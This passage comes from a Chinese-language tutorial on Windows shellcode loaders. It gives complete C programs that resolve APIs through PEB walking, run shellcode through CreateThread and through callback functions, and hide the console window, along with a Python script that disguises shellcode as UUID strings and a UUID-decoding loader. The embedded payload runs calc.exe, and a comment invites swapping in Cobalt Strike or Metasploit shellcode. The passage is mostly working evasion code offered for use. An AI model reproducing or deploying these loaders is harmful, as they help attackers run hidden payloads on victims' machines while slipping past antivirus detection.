"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";
    HMODULE hKernal32 = GetKernel32Moudle(); // 获取Kernel32模块的地址
    p_GetProcAddress GetProcAddress = (p_GetProcAddress)pGetProcAddress(hKernal32); // 获取GetProcAddress函数的地址
    p_VirtualProtect VirtualProtect = (p_VirtualProtect)GetProcAddress(hKernal32,
    "VirtualProtect"); //获取VirtualProtect函数地址
    p_CreateThread CreateThread = (p_CreateThread)GetProcAddress(hKernal32,
    "CreateThread"); //获取CreateThread函数地址
    p_WaitForSingleObject WaitForSingleObject =
    (p_WaitForSingleObject)GetProcAddress(hKernal32, "WaitForSingleObject"); //获取WaitForSingleObject函数地址
    DWORD oldProtect;
    VirtualProtect((LPVOID)buf, sizeof(buf), PAGE_EXECUTE_READWRITE, &oldProtect);
    HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)(LPVOID)buf,
    NULL, 0, NULL);
    WaitForSingleObject(hThread, INFINITE);
    return 0;
}
```

## x64实现

由于x64无法编写内联汇编代码, 因此需另创一个asm文件来进行编写

右键,添加,新建项

```
GetInitializationOrderModuleList.asm
```



此处我创建了一个 GetInitializationOrderModuleList.asm , 用于获取 InitializationOrderModuleList , 其代码如下所示:

```
.CODE
GetInInitializationOrderModuleList PROC
mov rax,gs:[60h] ; PEB，注意，这里不能写0x60
mov rax,[rax+18h] ; PEB_LDR_DATA
mov rax,[rax+30h] ; InInitializationOrderModuleList
ret ; 这里不能写retn
GetInInitializationOrderModuleList ENDP
END
```

随后鼠标右键单击新建的asm文件, 选择属性, 在常规选项处将 从生成中排除 设置为 否 , 项类型设置为 自定义生成工具



在自定义生成工具选项处, 在命令行框输入: `ml64 /Fo $(IntDir)%(fileName).obj /c %(fileName).asm`, 在输出框输入: `$(IntDir)%(FileName).obj`

```
ml64 /Fo $(IntDir)%(fileName).obj /c %(fileName).asm
$(IntDir)%(FileName).obj
```



打开项目属性，勾选 C/C++->代码生成->禁用安全检查



```c_cpp
#include <stdio.h>
#include <windows.h>
//声明定义api函数
typedef FARPROC(WINAPI* p_GetProcAddress)(_In_ HMODULE hModule, _In_ LPCSTR
lpProcName);
typedef HMODULE(WINAPI* p_LoadLibraryA)(__in LPCSTR lpLibFileName);
typedef BOOL(WINAPI* p_VirtualProtect)(LPVOID, DWORD, DWORD, PDWORD);
typedef HANDLE(WINAPI* p_CreateThread)(LPSECURITY_ATTRIBUTES, SIZE_T,
LPTHREAD_START_ROUTINE, LPVOID, DWORD, LPDWORD);
typedef DWORD(WINAPI* p_WaitForSingleObject)(HANDLE, DWORD);
// 内联汇编函数，用于获取Kernel32.dll模块的基地址
HMODULE inline __declspec(naked) GetKernel32Moudle()
{
    __asm
     {
         mov eax, fs: [0x30] ;
         mov eax, [eax + 0xc];
         mov eax, [eax + 0x14]
         mov eax, [eax];
         mov eax, [eax];
         mov eax, [eax + 0x10];
         ret;
     }
}
//获取GetProcAddress函数的地址
DWORD pGetProcAddress(HMODULE Kernel32Base) {
    char szGetProcAddr[] = { 'G','e','t','P','r','o','c','A','d','d','r','e','s','s',0 };
    DWORD result = NULL;
    // 遍历kernel32.dll的导出表，找到GetProcAddr函数地址
    PIMAGE_DOS_HEADER pDosHead = (PIMAGE_DOS_HEADER)Kernel32Base;
    PIMAGE_NT_HEADERS pNtHead = (PIMAGE_NT_HEADERS)((DWORD)Kernel32Base +
    pDosHead->e_lfanew);
    PIMAGE_OPTIONAL_HEADER pOptHead = (PIMAGE_OPTIONAL_HEADER)&pNtHead->OptionalHeader;
    PIMAGE_EXPORT_DIRECTORY pExport = (PIMAGE_EXPORT_DIRECTORY)
    ((DWORD)Kernel32Base + pOptHead->DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
    DWORD* pAddOfFun_Raw = (DWORD*)((DWORD)Kernel32Base + pExport->AddressOfFunctions);
    WORD* pAddOfOrd_Raw = (WORD*)((DWORD)Kernel32Base + pExport->AddressOfNameOrdinals);
    DWORD* pAddOfNames_Raw = (DWORD*)((DWORD)Kernel32Base + pExport->AddressOfNames);
    char* pFinded = NULL, * pSrc = szGetProcAddr;
    for (DWORD dwCnt = 0; dwCnt < pExport->NumberOfNames; dwCnt++)
    {
        pFinded = (char*)((DWORD)Kernel32Base + pAddOfNames_Raw[dwCnt]);
        while (*pFinded && *pFinded == *pSrc)
        {
            pFinded++; pSrc++;
        }
        if (*pFinded == *pSrc)
        {
            result = (DWORD)Kernel32Base + pAddOfFun_Raw[pAddOfOrd_Raw[dwCnt]];
            break;
        }
        pSrc = szGetProcAddr;
    }
    return result;
}
int main() {
    unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";
    HMODULE hKernal32 = GetKernel32Moudle(); // 获取Kernel32模块的地址
    p_GetProcAddress GetProcAddress = (p_GetProcAddress)pGetProcAddress(hKernal32); // 获取GetProcAddress函数的地址
    p_VirtualProtect VirtualProtect = (p_VirtualProtect)GetProcAddress(hKernal32,
    "VirtualProtect"); //获取VirtualProtect函数地址
    p_CreateThread CreateThread = (p_CreateThread)GetProcAddress(hKernal32,
    "CreateThread"); //获取CreateThread函数地址
    p_WaitForSingleObject WaitForSingleObject =
    (p_WaitForSingleObject)GetProcAddress(hKernal32, "WaitForSingleObject"); //获取WaitForSingleObject函数地址
    DWORD oldProtect;
    VirtualProtect((LPVOID)buf, sizeof(buf), PAGE_EXECUTE_READWRITE, &oldProtect);
    HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)(LPVOID)buf,
    NULL, 0, NULL);
    WaitForSingleObject(hThread, INFINITE);
    return 0;
}
```



### 简易版

该版本没有自实现 动态获取 GetProcAddress 函数地址, 而是直接使用并通过GetProcAddress获取其他windows api函数地址

```c_cpp
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") // 不显示黑窗
// VirtuallAlloc
typedef LPVOID(WINAPI* lpVirtualAlloc)(
  LPVOID lpAddress, // region to reserve orcommit
  SIZE_T dwSize, // size of region
  DWORD flAllocationType, // type of allocation
  DWORD flProtect // type of accessprotection
  );
// CreateThread
typedef HANDLE(WINAPI* hCreateThread)(
  LPSECURITY_ATTRIBUTES lpThreadAttributes, // SD
  SIZE_T dwStackSize, //initial stack size
  LPTHREAD_START_ROUTINE lpStartAddress, // threadfunction
  LPVOID lpParameter, // threadargument
  DWORD dwCreationFlags, // creation option
  LPDWORD lpThreadId // thread identifier
  );
// WaitForSingleObject
typedef DWORD(WINAPI* dwWaitForSingleObject)(
  HANDLE hHandle, // handle to object
  DWORD dwMilliseconds // time-out interval
  );
// RtlMoveMemory
typedef VOID(WINAPI* vRtlMoveMemory)(
  IN VOID UNALIGNED* Destination,
  IN CONST VOID UNALIGNED* Source,
  IN SIZE_T Length
  );
int main() {
  // 获取函数地址并赋值给对应申明的函数
  hCreateThread myCT = (hCreateThread)GetProcAddress(GetModuleHandle(L"Kernel32.dll"),
    "CreateThread");
  lpVirtualAlloc myVA = (lpVirtualAlloc)GetProcAddress(GetModuleHandle(L"Kernel32.dll"),
    "VirtualAlloc");
  dwWaitForSingleObject myWFSO =
    (dwWaitForSingleObject)GetProcAddress(GetModuleHandle(L"kernel32.dll"),
      "WaitForSingleObject");
  vRtlMoveMemory mymemmove =
    (vRtlMoveMemory)GetProcAddress(GetModuleHandle(L"kernel32.dll"), "RtlMoveMemory");
  unsigned char buf[] =  "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";
  // 申请内存
  LPVOID lpVA = myVA(NULL, sizeof(buf), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  // 拷贝数据到内存
  mymemmove(lpVA, buf, sizeof(buf));
  // 创建线程
  HANDLE hThread = myCT(
    NULL,
    NULL,
    (LPTHREAD_START_ROUTINE)lpVA,
    NULL,
    NULL,
    0
  );
  // 等待线程运行
  myWFSO(hThread, -1);
  // 关闭线程
  CloseHandle(hThread);
  return 0;
}

```


补充, 动态调用回调函数运行shellcode

```c_cpp
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") // 不显示黑窗
typedef BOOL(WINAPI* lpEnumDateFormatsA)(
  DATEFMT_ENUMPROCA lpDateFmtEnumProc,
  LCID Locale,
  DWORD dwFlags
  );
typedef BOOL(WINAPI* lpVirtualProtect)(
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD flNewProtect,
  PDWORD lpflOldProtect
  );
int main() {
  // 获取函数地址并赋值给对应申明的函数
  lpVirtualProtect myVp =
    (lpVirtualProtect)GetProcAddress(GetModuleHandle(L"Kernel32.dll"), "VirtualProtect");
  lpEnumDateFormatsA myEn =
    (lpEnumDateFormatsA)GetProcAddress(GetModuleHandle(L"Kernel32.dll"),
      "EnumDateFormatsA");
  unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";
  DWORD oldProtect = 0;
  // 修改数据内存属性为可执行
  myVp(buf, sizeof(buf), PAGE_EXECUTE_READWRITE, &oldProtect);
  myEn((DATEFMT_ENUMPROCA)&buf, NULL, NULL);
  return 0;
}

```

# 9.补充shellcode处理

就是把shellcode处理成不同的字符串, 在调用对应的函数转成16进制字符串在内存中, 然后调用执行

## 9.1uuid

### 什么是UUID

UUID（Universally Unique Identifier，通用唯一识别码）是一种为计算机系统中的所有对象分配一个唯一标识符的软件构建块。UUID 是 128 位的数字，通常由 32 个十六进制(16个字节)数字表示，并由连字符分隔成五个部分，形式为 8-4-4-4-12。例如：

```
550e8400-e29b-41d4-a716-446655440000
```

UUID 的目的是在没有中央协调机构的情况下，能够在分布式系统中生成唯一标识符。这意味着，任何人在任何地方都可以创建一个 UUID，而无需担心与其他人创建的 UUID 冲突。UUID 的设计使得它们的全局唯一性非常高，即使在不同的计算机系统和网络中也能保持唯一性。

UUID 通常用于以下场景：

- 数据库中的主键：用 UUID 作为数据库表的主键，确保每个记录都具有唯一的标识符，避免数据冲突。
- 分布式系统中的对象标识符：在分布式系统中，由于系统组件可能位于不同的计算机或网络上，使用 UUID 作为对象的唯一标识符有助于确保唯一性。
- 会话标识符：在网络应用中，使用 UUID 作为会话标识符可以确保每个会话都有唯一的识别码。
- 临时文件名：当需要创建临时文件时，使用 UUID 作为文件名可以确保不会与现有文件冲突。

### 什么是GUID

GUID（Globally Unique Identifier，全局唯一标识符）是一个 128 位长的数字，用于在软件中为对象分配唯一的标识符。GUID 和 UUID（Universally Unique Identifier）基本上是相同的概念，只是术语上的差别。实际上，**GUID 是 UUID 的一种实现**。

### shellcode转uuid

这段代码首先将包含 shellcode 的字节数组进行处理，确保长度是 16 的倍数。然后，将 shellcode 分为 16 字节的块，并为每个块创建一个 UUID，将这些 UUID 存储在一个列表中。最后，将这些 UUID 以 C 语言数组的形式输出

shellcode_to_uuid.py:

```python
import uuid

#使用cs或msf生成的python类型的shellcode
#shellcode = b"\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x64\x8b\x52"
shellcode = b"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";


# 用于存放shellcode转换成的uuid
uuid_list = []

# 确保 shellcode 长度是 16 的倍数，用 NOPs (\x90) 进行填充
if len(shellcode) % 16 != 0:
    shellcode += b'\x90' * (16 - len(shellcode) % 16)

# 每16字节为一组，遍历 shellcode
for i in range(0, len(shellcode), 16):
    chunk = shellcode[i:i + 16]
    # 为每组创建一个 UUID（GUID）
    uuid_chunk = uuid.UUID(bytes_le=chunk)
    uuid_list.append(str(uuid_chunk))

#输出uuid的c语言数组形式
uuids = "const char* uuids[] = {"
for uuid in uuid_list:
    uuids = uuids + f"\"{uuid}\","
uuids = uuids[:-1] + "};"
print(uuids)
```



### uuid写入shellcode

以下代码的主要目的是**通过UUID加载并执行shellcode**。代码的关键步骤如下：

1. 定义一个包含转换为UUID形式的shellcode字符串数组 `uuids` 。
2. 创建一个具有执行权限的堆 `hc` 。
3. 在堆上分配一块可执行内存 `buffer` 。
4. 检查内存分配是否成功，如果失败则输出错误信息并返回。
5. 将UUID值转换回原始的shellcode并将其存储在 `buffer_backup` 地址。
6. 使用` EnumSystemLocalesA `函数调用转换回的shellcode。这是通过将shellcode作为处理每个枚
举到的区域设置信息的回调函数的地址传递给 `EnumSystemLocalesA` 函数实现的。
7. 关闭内存句柄。

```c_cpp
#include<Windows.h>
#include<stdio.h>
#include <Rpc.h>
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") // 不显示黑窗

#pragma comment(lib, "Rpcrt4.lib")
//用于存放shellcode转的uuid的数组
const char* uuids[] = {"e48348fc-e8f0-00c0-0000-415141505251","d2314856-4865-528b-6048-8b5218488b52","728b4820-4850-b70f-4a4a-4d31c94831c0","7c613cac-2c02-4120-c1c9-0d4101c1e2ed","48514152-528b-8b20-423c-4801d08b8088","48000000-c085-6774-4801-d0508b481844","4920408b-d001-56e3-48ff-c9418b348848","314dd601-48c9-c031-ac41-c1c90d4101c1","f175e038-034c-244c-0845-39d175d85844","4924408b-d001-4166-8b0c-48448b401c49","8b41d001-8804-0148-d041-5841585e595a","59415841-5a41-8348-ec20-4152ffe05841","8b485a59-e912-ff57-ffff-5d48ba010000","00000000-4800-8d8d-0101-000041ba318b","d5ff876f-f0bb-a2b5-5641-baa695bd9dff","c48348d5-3c28-7c06-0a80-fbe07505bb47","6a6f7213-5900-8941-daff-d563616c632e","00657865-9090-9090-9090-909090909090"};
void main() {
// 创建一个具有执行权限的堆
HANDLE hc = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0);
// 在堆上分配一块可执行内存
void* buffer = HeapAlloc(hc, 0, 0x100000);
// 检查内存分配是否成功，如果失败则输出错误信息并返回0
if (buffer == NULL) {
return;
 }
// uuid的处理
PBYTE buffer_backup = (PBYTE)buffer; //定义一个存储uuid转换成的二进制字节序列(shellcode)
 int elems = sizeof(uuids) / sizeof(uuids[0]); //获取uuid数组元素的个数
 /*
 UuidFromStringA函数将UUID值转换成二进制字节序列,其语法格式如下:
 RPC_STATUS UuidFromStringA(
 RPC_CSTR StringUuid, //指向uuid形式的字符串的指针
 UUID * Uuid //用于接收二进制字节序列的指针
 );
 */
 // 遍历uuids数组,并将UUID转换回原始的shellcode,然后存储在buffer_backup地址
 for (int i = 0; i < elems; i++) {
  RPC_STATUS status = UuidFromStringA((RPC_CSTR)uuids[i], (UUID*)buffer_backup);
  if (status != RPC_S_OK) {
   CloseHandle(buffer);
   return;
  }
  buffer_backup += 16;
 }
 /*
 EnumSystemLocalesA函数用于枚举系统中支持的所有区域设置,其语法格式如下:
 BOOL EnumSystemLocalesA(
 LOCALE_ENUMPROCA lpLocaleEnumProc, //处理每个枚举到的区域设置信息的回调函数的地址
 DWORD dwFlags //指定枚举的方式
 );
 */
 // 使用 EnumSystemLocalesA 函数调用转换回的 shellcode
 EnumSystemLocalesA((LOCALE_ENUMPROCA)buffer, 0);
 // 关闭内存句柄
 CloseHandle(buffer);
}
```


